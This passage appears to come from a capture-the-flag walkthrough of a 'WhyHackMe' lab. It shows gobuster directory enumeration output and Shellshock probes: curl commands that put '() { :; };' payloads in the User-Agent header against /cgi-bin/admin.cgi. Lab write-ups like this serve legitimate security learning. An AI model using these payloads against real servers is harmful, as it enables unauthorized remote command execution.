 <br>

```bash
:~/WhyHackMe# gobuster dir -u http://TargetIP -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
...
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/assets               (Status: 301) [Size: 315] [--> http://TargetIP/assets/]
/cgi-bin/             (Status: 403) [Size: 278]
/dir                  (Status: 403) [Size: 278]
/index.php            (Status: 200) [Size: 563]
/server-status        (Status: 403) [Size: 278]
```


<h3>http://TargetIP</h3>

![image](https://github.com/user-attachments/assets/4b3d9a2b-5441-4d68-b0b1-00b596a836e4)

<h3>http://TargetIP/blog.php</h3>

![image](https://github.com/user-attachments/assets/26b2d943-df5e-4e79-917e-33f953657ac5)

<p>https://hacktricks.boitatech.com.br/pentesting/pentesting-web/cgi</p>

![image](https://github.com/user-attachments/assets/a7f4309c-9515-4881-b65f-306f3153f450)

![image](https://github.com/user-attachments/assets/ac05c986-8a19-425b-a8c8-88b76911bdd3)

<h3>Tested Reflected</h3>

```bash
:~/WhyHackMe# curl -H 'User-Agent: () { :; }; echo "VULNERABLE TO SHELLSHOCK"' http://TargetIP/cgi-bin/admin.cgi 2>/dev/null| grep 'VULNERABLE'
```

<h3> Tested Blind with sleep</h3>

```bash
:~/WhyHackMe# curl -H 'User-Agent: () { :; }; /bin/bash -c "sleep 5"' http://TargetIP/cgi-bin/admin.cgi
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access this resource.</p>
<hr>
<address>Apache/2.4.41 (Ubuntu) Server at TargetIP Port 80</address>
</body></html>
```

<br>

<p>
    